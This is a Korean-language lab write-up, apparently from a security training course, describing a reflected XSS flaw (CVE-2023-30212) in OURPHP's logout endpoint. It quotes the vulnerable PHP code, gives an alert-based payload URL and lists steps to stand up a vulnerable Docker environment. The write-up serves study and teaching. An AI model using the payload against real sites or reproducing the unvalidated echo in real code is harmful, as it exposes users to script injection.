

# CVE-2023-30212
> 화이트햇 스쿨 3기 (31반) 강민혁

github link : [https://github.com/meowyeok/kr-vulhub](https://github.com/meowyeok/kr-vulhub)

( 우선 [https://vulhub.org/](https://vulhub.org/) 에 없는 내용임을 밝힙니다. )

## **요약**

- OURPHP 웹 애플리케이션에서 발견된 크로스 사이트 스크립팅(XSS) 취약점입니다.
- “/client/manage/ourphp_out.php” 엔드포인트에서 사용자 입력값의 부적절한 검증으로 인해 악성 스크립트 삽입이 가능합니다.

## **PoC 구성**

- ourphp_out.php 파라미터에 XSS 페이로드를 삽입해 익스플로잇이 가능합니다.
- payload :  `/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script>`
    
    ```php
    if($_GET['ourphp_admin']=="logout"){
    	
    	plugsclass::logs('退出登录',$_SESSION['ourphp_adminname']);
    	unset($_SESSION['ourphp_adminname']);
    	unset($_SESSION['ourphp_outtime']);
    	unset($_SESSION['ourphp_out']);
    	echo"<script>location.href='../..".$_GET['out']."';</script>";
    	exit();
    }
    ```
    
    - 위의 out의 입력값을 검증없이 그대로 사용하여 XSS 취약점이 발생하였다

## **환경 구성 및 실행**

- docker compose up
- localhost:8080으로 접속
- OURPHP 초기 설정에 다음과 같이 입력
database connection address : db
username : root
password : root
database name : data
- payload인 [`localhost:8080/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script>`](http://localhost:8080/client/manage/ourphp_out.php?ourphp_admin=logout&out=</script><script>alert("xss")</script>) 입력

## **결과**

- alert를 통한 poc
    
    
    

## **정리**

- OURPHP의 발생한 XSS 취약점에 대해 알아봤다. 이를 위하여 docker를 통해 손쉽게 취약한 환경을 구성하여 학습할 수 있었고, 더 나아가 docker를 통한 구성 준비 실습을 해봄으로써 docker에 대해 한층 더 깊은 이해를 할 수 있었다.